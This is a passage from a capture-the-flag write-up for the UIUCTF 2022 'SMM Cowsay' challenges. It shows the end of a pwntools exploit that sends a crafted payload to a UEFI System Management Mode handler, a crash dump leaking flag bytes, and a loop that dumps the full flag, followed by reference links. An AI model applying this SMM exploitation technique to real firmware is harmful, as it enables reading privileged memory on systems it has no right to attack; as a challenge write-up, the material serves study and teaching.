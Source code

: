 ```python

data:
    .octa {gEfiSmmCowsayCommunicationGuid} /* Buffer->HeaderGuid */
    .quad {len(payload)}                   /* Buffer->MessageLength */
    /* payload will be appended here to serve as Buffer->Data */
''')

conn.sendline(code.hex().encode() + payload.hex().encode() + b'\ndone')
conn.interactive()
```

Result:

```
Running...
!!!! X64 Exception Type - 0D(#GP - General Protection)  CPU Apic ID - 00000000 !!!!
ExceptionData - 0000000000000000
RIP  - AFAFAFAFAFAFAFAF, CS  - 0000000000000038, RFLAGS - 0000000000000002
RAX  - 547B667463756975, RCX - 0000000000000000, RDX - 0000000000000000
...
```

Surely enough, that value in RAX decodes to `uiuctf{T`, which is the test flag
provided in the `handout/run/region4` file. We could find some more gadgets to
dump more bytes, and we could even try using IO ports to actually write the flag
out on the screen, but wrapping the exploit up into a function and running it a
couple more times seemed way easier to me (*I was also not sure about how to
output to the screen, e.g. which function or which IO port to use*).

```python
flag = ''
for off in range(0, 0x100, 8):
    chunk = expl(0x44440000 + off)
    flag += chunk.decode()
    log.success(flag)

    if '}' in flag:
        break
```

```
[*] Leaking 8 bytes at 0x44440000...
[+] uiuctf{d
[*] Leaking 8 bytes at 0x44440008...
[+] uiuctf{dont_try_
...
[*] Leaking 8 bytes at 0x44440030...
[+] uiuctf{dont_try_this_at_home_I_mean_at_work_5dfbf3eb}
```

---

# SMM Cowsay 3


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31